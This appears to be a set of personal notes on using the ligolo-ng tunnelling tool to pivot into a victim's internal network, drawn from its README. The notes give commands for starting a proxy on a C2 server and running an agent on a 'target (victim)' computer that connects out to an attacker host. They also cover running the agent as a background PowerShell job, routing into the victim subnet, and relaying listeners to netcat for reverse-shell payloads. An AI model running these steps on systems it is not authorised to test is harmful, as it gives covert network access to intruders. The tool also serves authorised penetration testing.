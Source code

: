 > How to https://4pfsec.com/ligolo

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```
Start the _proxy_ server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -selfcert #use -autocert to Automatically request LetsEncrypt certificates
```
Start the _agent_ on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601 -ignore-cert
```

### in windows
```
$scriptBlock = { Start-Process ./agent.exe -ArgumentList @('-connect  192.168.45.193:11601', '-ignore-cert') }
Start-Job -ScriptBlock $scriptBlock
```
Use the `session` command to select the _agent_.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network.

_Linux_:

```shell
$ sudo ip route add 192.168.0.0/24 dev ligolo
```

_Windows_:

```
> netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
> route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

Start the tunnel on the proxy:

```
[Agent : nchatelain@nworkstation] » start
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

### [Agent Binding/Listening](https://github.com/nicocha30/ligolo-ng#agent-bindinglistening)

You can listen to ports on the _agent_ and _redirect_ connections to your control/proxy server.

In a ligolo session, use the `listener_add` command.

The following example will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

```
[Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
INFO[1208] Listener created on remote agent!            
```

On the `proxy`:

```shell
$ nc -lvp 4321
```

When a connection is made on the TCP port `1234` of the agent, `nc` will receive the connection.

This is very useful when using reverse tcp/udp payloads.

You can view currently running listeners using the `listener_list` command and stop them using the `listener_stop [ID]` command:

```
[Agent : nchatelain@nworkstation] » listener_list 
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ nchatelain@nworkstation │ 0.0.0.0:1234           │ 127.0.0.1:4321         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘

[Agent : nchatelain@nworkstation] » listener_stop 0
INFO[1505] Listener closed.                             
```
